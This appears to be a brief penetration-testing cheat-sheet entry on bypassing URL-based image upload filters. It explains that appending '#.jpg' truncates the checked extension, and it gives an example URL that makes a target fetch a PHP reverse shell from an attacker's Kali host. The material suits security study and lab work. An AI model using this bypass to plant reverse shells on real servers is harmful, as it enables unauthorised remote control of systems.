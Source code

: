 # Bypass File Upload



If the site accepts a URL but only accepts images, try adding **#** followed by the accept format, this way you are still uploading your file without modifying it as it cuts off everything after # &#x20;

**Browser**

```
http://$KALI:81/php-reverse-shell.php#.jpg
```
